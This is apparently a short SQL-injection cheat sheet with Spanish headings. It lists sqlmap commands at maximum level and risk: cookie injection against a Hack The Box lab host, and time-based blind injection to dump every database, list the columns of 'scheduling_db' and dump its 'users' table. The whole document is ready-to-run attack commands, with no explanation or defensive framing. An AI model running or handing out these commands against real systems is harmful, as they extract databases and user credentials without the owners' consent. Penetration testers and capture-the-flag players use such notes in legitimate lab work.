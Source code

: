 


# COOKIES
```shell
❯ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --flush --fresh-queries --level=5 --risk=3 --batch
````


# BASADAS EN TIEMPO
### EXTRAER TODO
```shell
❯ sqlmap --risk 3 --level 5 --random-agent --dump-all -r ./request --technique=T --time-sec=1 --batch
```

### TODAS LAS COLUMNAS DE UNA BASE DE DATOS
```shell
❯ sqlmap --risk 3 --level 5 --random-agent -r ./request --technique=T --time-sec=1 --batch --columns -D scheduling_db
```

### LISTAR TODO EL CONTENIDO DE UNA TABLA
```shell
❯ sqlmap --risk 3 --level 5 --random-agent -r ./request --technique=T --time-sec=1 --batch --dump -D scheduling_db -T users
```